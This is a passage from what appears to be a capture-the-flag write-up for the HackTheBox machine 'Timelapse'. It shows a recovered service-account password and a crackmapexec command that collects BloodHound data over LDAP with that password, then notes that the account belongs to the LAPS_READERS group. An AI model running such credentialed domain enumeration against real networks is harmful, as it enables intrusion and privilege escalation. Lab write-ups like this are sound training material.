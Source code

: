 Get credential - `svc_deploy`:`E3R$Q62^12p7PLlC%KWaxuaV`


## Investigate with BloodHound

Use **crackmapexec**'s bloodhound collector

```bash
cme ldap timelapse.htb -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' --bloodhound -c all -ns 10.10.11.152
```

![](/assets/obsidian/142ce787dee609f4e44c191aaf64efe2.png)

Start **bloodhound**, and drag in the zip file 

```bash
sudo neo4j start
bloodhound
```

User `svc_deploy` have a non-standard domain group : `LAPS_READERS`

![](/assets/obsidian/201da570450810530df9a71655663bfd.png)
